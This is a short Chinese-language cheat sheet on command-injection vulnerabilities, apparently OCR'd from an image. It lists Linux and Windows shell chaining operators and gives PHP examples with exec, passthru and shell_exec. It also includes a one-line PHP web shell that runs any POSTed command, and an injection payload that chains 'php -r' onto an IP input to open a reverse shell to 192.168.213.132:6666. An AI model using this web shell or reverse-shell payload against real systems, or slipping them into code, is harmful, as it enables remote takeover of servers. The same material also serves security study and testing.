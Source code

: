 ### 命令执行常用特殊字符

```php
cmd1|cmd2：无论cmd1是否执行成功，cmd2将被执行
cmd1;cmd2：无论cmd1是否执行成功，cmd2将被执行
cmd1||cmd2：仅在cmd1执行失败时才执行cmd2
cmd1&&cmd2：仅在cmd1执行成功后才执行
cmd2$(cmd)：echo $(whoami) 或者 $(touch resr.sh;echo ‘ls’ > test.sh)
'cmd'：用于执行特定命令，如’whoami’
```

## 命令执行漏洞利用

```bash
'$a,$b'

<?php
//要执行的命令
$command="ipconfig";
//存储命令输出
$output=[];
//存储命令的返回状态码
$return_var=0;
exec($command,$output,$return_var);
//输出命令的结果
print_r($output);
//输出返回状态码
echo "Return status:".$return_var;
?>


<?php
$cmd=$_POST['cmd'];
@exec($cmd,$return);
var_dump($return);
?>

<?php
//执行命令"ipconfig"，并直接输出结果
passthru("ipconfig");
?>

<?php
//执行命令"ipconfig"，并将结果存储在变量中
$output=shell_exec("ipconfig");
//输出结果
echo "<pre>$output</pre>";
?>

Linucx
;	前面的执行完执行后面的
|	显示后面的执行结果
||	当前面的执行出错时，执行后面的


Windows
&	前面为假，直接执行后面的
&&	前面为假直接报错，不执行后面的
|	直接执行后面的语句
||	前面出错执行后面的


反弹shell
127.0.0.1|php -r '$sock=fsockopen("192.168.213.132",6666);exec("/bin/sh -i <&3 >&3 2>&3");'
```